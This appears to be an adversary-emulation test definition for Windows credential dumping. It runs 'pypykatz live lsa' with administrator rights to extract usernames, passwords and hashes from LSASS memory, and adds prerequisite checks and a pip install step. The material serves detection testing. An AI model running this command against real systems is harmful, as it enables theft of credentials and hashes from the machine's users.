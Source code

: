 Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple useranames and passwords/hashes to the screen.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
pypykatz live lsa
```

#### Dependencies:  Run with `powershell`!

##### Description: Computer must have python 3 installed

##### Check Prereq Commands:

```powershell
if (python --version) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
echo "Python 3 must be installed manually"
```

##### Description: Computer must have pip installed

##### Check Prereq Commands:

```powershell
if (pip3 -V) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
echo "PIP must be installed manually"
```

##### Description: pypykatz must be installed and part of PATH

##### Check Prereq Commands:

```powershell
if (cmd /c pypykatz -h) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
pip3 install pypykatz
```
